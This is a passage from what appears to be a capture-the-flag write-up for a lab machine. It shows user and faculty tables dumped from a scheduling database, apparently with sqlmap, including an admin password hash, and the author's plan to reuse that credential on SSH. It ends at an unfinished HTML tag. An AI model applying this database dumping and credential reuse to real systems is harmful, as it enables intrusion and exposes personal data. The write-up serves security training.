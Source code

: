 
```bash
Database: scheduling_db
Table: users
[1 entry]
+----+---------------+------+----------------------------------+----------+
| id | name          | type | password                         | username |
+----+---------------+------+----------------------------------+----------+
| 1  | Administrator | 1    | 1fecbe762af147c1176a0fc2c722a345 | admin    |
+----+---------------+------+----------------------------------+----------+


Database: scheduling_db
Table: faculty
[3 entries]
+----+----------+--------------------+--------+---------------------+----------------+----------+-----------+------------+
| id | id_no    | email              | gender | address             | contact        | lastname | firstname | middlename |
+----+----------+--------------------+--------+---------------------+----------------+----------+-----------+------------+
| 1  | 63033226 | jsmith@faculty.htb | Male   | 151 Blue Lakes Blvd | (646) 559-9192 | Smith    | John      | C          |
| 2  | 85662050 | cblake@faculty.htb | Female | 225 Main St         | (763) 450-0121 | Blake    | Claire    | G          |
| 3  | 30903070 | ejames@faculty.htb | Male   | 142 W Houston St    | (702) 368-3689 | James    | Eric      | P          |
+----+----------+--------------------+--------+---------------------+----------------+----------+-----------+------------+
```

We have the following credentials, it cannot be found on crackstation (even with the sqlmap, we could reuse this password on SSH or something):

**Administrator:1fecbe762af147c1176a0fc2c722a345**


We have the user IDs, we can use them to check user's funcitonallity:

<p align="center">